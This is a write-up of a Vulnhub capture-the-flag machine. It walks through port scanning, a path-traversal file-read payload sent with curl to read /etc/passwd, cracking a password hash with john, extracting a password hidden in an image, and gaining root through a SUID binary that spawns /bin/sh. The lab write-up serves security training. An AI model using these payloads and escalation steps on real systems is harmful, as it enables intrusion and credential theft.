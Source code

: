 
![0445d14e4e2fb7114abb336ec9d8a2cf5ed84566](https://github.com/user-attachments/assets/2fcb4641-5c46-4d88-a820-f1115d958918)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [Ajay Verma](https://www.vulnhub.com/author/ajay-verma,598/)         | [Vulnhub](https://www.vulnhub.com/)     | Medium           | Linux   |

---






- I start with a scan of the open ports,
    
    ```bash
    nmap -p- --open -vvv -sS --min-rate 5000 -Pn -oG scan 192.168.56.106 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/9689e1d7-ccd4-4a63-84e8-628afb7292a6)

    
- Scanning open ports.
    
    ```bash
    nmap -p80,1337,12320,12321,12322-sCV 192.168.56.106 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/4a213661-874a-41e6-9813-7e86503562c6)

    

- I look at what technologies they are using on the two websites.
    
    ```bash
    whatweb http://192.168.56.106/
    whatweb https://192.168.56.106:1337/
    whatweb https://192.168.56.106:12320/
    whatweb https://192.168.56.106:12322/
    ```
    
    ![image 2](https://github.com/user-attachments/assets/eda67d95-2b8a-4311-892a-8cdff5ccc05f)

    

- I access the different web pages to get a first impression of them in case I see something peculiar.
    
    ![image 3](https://github.com/user-attachments/assets/32b0dbc2-74d1-4f32-883a-b61eb81a03a9)

    
    ![image 4](https://github.com/user-attachments/assets/2342a2b8-b583-458c-a4fe-1053a8f1fd4f)

    
    ![image 5](https://github.com/user-attachments/assets/82a1277b-0b2c-487f-9bb4-1fb46f5250e7)

    
    ![image 6](https://github.com/user-attachments/assets/eefdc26f-63ab-40f2-a4d4-037c9e8e3e08)

    

- I check again the port scan and I see for `12322` a `robots.txt`, I take a look at it
    
    ![image 7](https://github.com/user-attachments/assets/562d7a16-cfc2-4f75-9d7e-56539f04c832)

    
    ![image 8](https://github.com/user-attachments/assets/4382ce2b-c4f6-4f0f-a21e-b8247927da89)

    
- When entering `file_view.php` it tells me that there is a parameter with which we can possibly read internal file (`LFI`)
    
    ![image 9](https://github.com/user-attachments/assets/cc539d4e-eef9-4598-96da-b097fa9a5c85)

    

- After trying different ways to enter the parameter, I find that we should indicate it in the body of a POST request
    
    ```bash
    curl -k -x POST "https://192.168.56.106/file_view.php" -d "../../../../../../../../../../../etc/hosts" 2>/dev/null
    curl -k -x POST "https://192.168.56.106/file_view.php" -d "../../../../../../../../../../../etc/passwd" 2>/dev/null | grep -v "/bin/false" | grep -v "nolog"
    ```
    
    ![image 10](https://github.com/user-attachments/assets/cd701ea3-ae74-4466-91be-193c86b075c3)

    
    ![image 11](https://github.com/user-attachments/assets/72c77b2b-b966-4eed-8f5e-aa6213f37eae)

    

- I find two users, `n30` and `testuser`. I try to access through port `12320` using the same user and password. I manage to login with `testuser`
    
    ![image 12](https://github.com/user-attachments/assets/2e7d7c58-a95c-47d5-8d62-f5d16ff7f35e)

    

- I check the files inside the directory of the web pages and find a possible credential.
    
    ![image 13](https://github.com/user-attachments/assets/13dc8ed7-ef81-4f0c-9f48-129b789f8c89)

    

- I use a page to see what kind of encryption this string might be.
  
    [Decrypt MD5, SHA1, MySQL, NTLM, SHA256, MD5 Email, SHA256 Email, SHA512, Wordpress, Bcrypt hashes for free online](https://hashes.com/en/decrypt/hash)
    
    ![image 14](https://github.com/user-attachments/assets/f3b30f2a-d163-40c3-8e25-1c7bb182efe9)

    

- I try to break the password with `john` and using a `md5crypt` encryption format. It gives me a possible password
    
    ```bash
    john -w /usr/share/wordlist/rockyou.txt hash --format=md5crypt
    ```
    
    ![image 15](https://github.com/user-attachments/assets/59df5d80-2421-4229-9a91-9f78c56f4d4a)

    
- I use the credentials found to access the port `1337` web page. At first glance I don't see anything interesting but on reviewing the source code I find a comment referring to an image.
    
    ![image 16](https://github.com/user-attachments/assets/33491752-eae8-4a3d-9ee8-a40c19ac7b94)

    
    ![image 17](https://github.com/user-attachments/assets/237322b2-31f3-42be-b8cc-c5bd6faeb121)

    

- I set up a server with `python` on port `8000` to download the image to my machine.
    
    ```bash
    python3 -m http.server
    wget https://192.168.56.106:8000/h1dd3n.jpg
    ```
    
    ![image 18](https://github.com/user-attachments/assets/278fe943-4ee7-40b3-8b23-b75e99bfe008)

    
- I try to look at the text strings in the photo but find nothing interesting so I try `stegseek` and get a possible password.
    
    ```bash
    stegseek h1dd3n.jpg
    ```
    
    ![image 19](https://github.com/user-attachments/assets/f2646e90-48c2-4ad9-9f97-eee324f16aee)

    
- I use the password with the user `n30` and I manage to pivot to that user.
    
    ![image 20](https://github.com/user-attachments/assets/8d6e0f8e-86f7-40b4-9cf4-7a5eef0351f7)

    
- I check the bash history of this user and I find a strange command, I see that he has `SUID` permission.
    
    ![image 21](https://github.com/user-attachments/assets/bb219458-2bcc-497a-bdc1-073519c468f0)

    
- I run it and become root
    
    ```bash
    /usr/bin/morpheus 'BEGIN {system("/bin/sh")}'
    ```
    
    ![image 22](https://github.com/user-attachments/assets/432c4f3c-105b-4122-a549-10fef49ba60d)
